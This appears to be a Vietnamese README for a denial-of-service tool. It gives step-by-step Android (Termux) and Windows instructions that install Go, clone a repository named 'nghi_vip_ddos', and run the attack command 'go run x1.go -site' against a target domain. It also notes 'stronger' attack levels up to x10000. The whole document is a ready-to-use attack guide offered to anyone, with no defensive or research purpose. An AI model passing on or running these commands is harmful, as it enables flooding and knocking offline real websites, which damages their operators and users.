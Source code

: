 ---------- Trên Điện Thoại Android ----------

Bước 1: Cài Đặt Ứng Dụng Termux
Link Tải: https://apkcombo.com/vi/termux/com.termux/

Bước 2: Mở Ứng Dụng Termux Chạy Các Lệnh Theo Thứ Tự
1. pkg install git
2. pkg install golang
3. git clone https://github.com/Nghi235/nghi_vip_ddos.git (lệnh cài đặt tool)
4. cd nghi_vip_ddos && go run x1.go -site https://domain.com (lệnh tấn công, bạn có thể thay x1 bằng càng mức tấn công mạnh hơn như x5, x10, x50, x100, x500, x1000, x5000, x10000)
5. Các Lần Tấn Công Sau Chỉ Cần Chạy Lệnh "4"

---------- Trên Hệ Điều Hành Windows ----------

Bước 1: Cài Đặt "Git For Windows"
Link Tải: https://gitforwindows.org/

Bước 2: Cài Đặt "Golang For Windows"
Link Tải: https://go.dev/doc/install

Bước 3: Ấn Tổ Hợp Phím "Windows+R" Tìm Kiếm "cmd" Và Ấn Enter Chạy Các Lệnh Sau
1. git clone https://github.com/Nghi235/nghi_vip_ddos.git (lệnh cài đặt tool)
2. cd nghi_vip_ddos && go run x1.go -site https://domain.com (lệnh tấn công, bạn có thể thay x1 bằng càng mức tấn công mạnh hơn như x5, x10, x50, x100, x500, x1000, x5000, x10000)
3. Các Lần Tấn Công Sau Chỉ Cần Chạy Lệnh "2"
